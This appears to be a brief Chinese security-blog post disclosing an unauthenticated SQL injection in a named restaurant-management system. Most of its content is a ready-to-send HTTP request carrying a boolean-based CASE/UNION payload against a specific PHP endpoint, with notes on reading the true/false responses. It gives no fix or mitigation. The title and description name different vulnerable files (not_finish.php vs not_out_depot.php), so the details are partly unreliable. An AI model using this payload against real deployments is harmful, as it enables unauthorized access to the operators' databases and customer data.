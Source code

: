 #  喰星云-数字化餐饮服务系统not_finish.php存在SQL注入漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-04 20:27  
  
## 1. 漏洞描述  
  
	  
喰星云-数字化餐饮服务系统 not_out_depot.php接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息.  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk1JGkIqBeC8Bibx7BAEvWicFLp20FkUibUIVM2wF87jusNWf5svnYiaDg8g/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
GET /logistics/home_warning/php/not_finish.php?do=getList&lsid=(SELECT+(CASE+WHEN+(6192=6193)+THEN+''+ELSE+(SELECT+9641+UNION+SELECT+2384)+END)) HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate

```  
  
    报错注入，当条件WHEN+(6192=6193)不符合时，返回空内容：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqkQJfMXJygtzsj0rQRvLnrvnzm49LabXEeF3ysssBZzctX762bEyOW0Q/640?wx_fmt=png&from=appmsg "")  
  
    报错注入，当条件WHEN+(6193=6193)符合时，返回查询数据：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqkNn9SxU7ia42cDd36gmG4qn3sHIvBiavNo2rf5L4ZNgEDiarClILrykjew/640?wx_fmt=png&from=appmsg "")  
  
  
